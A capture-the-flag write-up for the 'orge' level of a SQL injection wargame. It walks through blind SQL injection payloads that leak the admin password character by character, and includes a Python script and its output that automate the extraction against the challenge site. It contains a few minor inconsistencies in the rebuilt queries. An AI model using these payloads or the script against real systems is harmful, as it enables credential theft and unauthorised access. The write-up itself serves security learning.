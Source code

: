 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 7
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/b4a2f5ed-77f8-4b4a-aaae-220bf30b6964)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orge WHERE id='guest' AND pw='{$_GET[pw]}'
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the message `Hello {$result[id]}`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


It is similar to [orc](https://writeups-kunull.vercel.app/Lord%20of%20SQLInjection/orc) but this level also blocks the `OR` and `AND` characters. So we will haveto use their alternatives `||` and `&&` respectively.

In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' || id='admin' %26%26 length(pw)=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orge WHERE id='admin' || pw='' && length(pw)=1 -- -'

## Queried part:
SELECT id FROM prob_orge WHERE id='admin' || pw='' && length(pw)=1

## Commented part:
'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/54dd9da3-f4bc-425a-99aa-719ad27b3fba)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' || id='admin' %26%26 length(pw)=8 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orge WHERE id='admin' AND pw='' || id='admin' && length(pw)=8 -- -''

## Queried part:
SELECT id FROM prob_orge WHERE id='admin' AND pw='' || id='admin' && length(pw)=8

## Commented part:
'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/4239c4cf-ee50-4569-ba04-c53e6763f684)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![Pasted image 20240610125927](https://github.com/Kunull/Write-ups/assets/110326359/1f746f94-b19a-4867-8868-f8396aa3e375)

If we provide the following URI:

```
?pw=' || id='admin' %26%26 substr(pw, 1, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orge WHERE id='admin' AND pw='' || id='admin' && substr(pw, 1, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orge WHERE id='admin' AND pw='' || id='admin' && substr(pw, 1, 1)='0'

## Commented part:
'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/e90ce2aa-7d48-46da-b082-bad77687875b)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the first character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' || id='admin' %26%26 substr(pw, 1, 1)='7' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orge WHERE id='admin' AND pw='' || id='admin' && substr(pw, 1, 1)='7' -- -'

## Queried part:
SELECT id FROM prob_orge WHERE id='admin' AND pw='' || id='admin' && substr(pw, 1, 1)='7'

## Commented part:
'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/6cb53029-51de-43bd-9456-d62d95321eca)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the first character of the `pw` for `id=admin` is `0`.

We can move onto the next characters:

```
?pw=' || id='admin' %26%26 substr(pw, 2, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orge WHERE id='admin' AND pw='' || id='admin' && substr(pw, 2, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orge WHERE id='admin' AND pw='' || id='admin' && substr(pw, 2, 1)='0'

## Commented part:
'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/57096134-2e7f-4417-a442-d2cd1c2ad761)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
7b751aec
```

Now, we can provide password URI:

```
?pw=7b751aec
```

The resultant query becomes:

```sql
SELECT id FROM prob_orge WHERE id='admin' AND pw='7b751aec'
```


## Script

We can automate the entire process using a script.

```py title="orge_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jeae4igtrh2cq92r63ob4kqmqr'}
url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"
password_length = 0

for x in range(0, 10):
  payload = f"' || id='admin' && length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Password length: {password_length}")
print()

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' || id='admin' && substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted Password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\orge_script.py

[!] Payload: ?pw=' || id='admin' && length(pw)=8 -- -
[!] Password length: 8

[+] Payload: ?pw=' || id='admin' && substr(pw, 1, 1)='7' -- -
[+] Character at index 1: 7
[+] Payload: ?pw=' || id='admin' && substr(pw, 2, 1)='b' -- -
[+] Character at index 2: b
[+] Payload: ?pw=' || id='admin' && substr(pw, 3, 1)='7' -- -
[+] Character at index 3: 7
[+] Payload: ?pw=' || id='admin' && substr(pw, 4, 1)='5' -- -
[+] Character at index 4: 5
[+] Payload: ?pw=' || id='admin' && substr(pw, 5, 1)='1' -- -
[+] Character at index 5: 1
[+] Payload: ?pw=' || id='admin' && substr(pw, 6, 1)='a' -- -
[+] Character at index 6: a
[+] Payload: ?pw=' || id='admin' && substr(pw, 7, 1)='e' -- -
[+] Character at index 7: e
[+] Payload: ?pw=' || id='admin' && substr(pw, 8, 1)='c' -- -
[+] Character at index 8: c     

[!] Extracted Password: 7b751aec
[!] Final payload: ?pw=7b751aec 
```
